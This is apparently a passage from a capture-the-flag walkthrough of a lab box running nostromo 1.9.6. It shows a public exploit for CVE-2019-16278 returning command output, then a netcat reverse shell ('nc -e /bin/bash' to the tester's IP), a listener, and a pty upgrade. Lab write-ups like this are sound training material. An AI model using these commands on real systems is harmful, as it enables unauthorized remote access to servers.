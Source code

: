 ```python

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)

    except IndexError:
        print(help_menu)
```

This is quite straight forward, this script injects the code in a `POST` socket. The script seems to be interactive so let's run it. We see that we need to give the IP, Port and command.

```sh
$python 47837.py 10.10.10.165 80 whoami


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Wed, 25 Mar 2020 19:33:54 GMT
Server: nostromo 1.9.6
Connection: close


www-data
```

Great, running **whoami**, we have a response. This means we can make a reverse shell. For that we need two terminal windows. In the first window we set a **nc listener**, and on the other we run the following command

terminal 1:
```sh
$python 47837.py 10.10.10.165 80 "nc -e /bin/bash 10.10.15.37 1231"
```

terminal 2:
```sh
$nc -lvnp 1231
listening on [any] 1231 ...
connect to [10.10.15.37] from (UNKNOWN) [10.10.10.165] 39936
whoami
www-data
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```
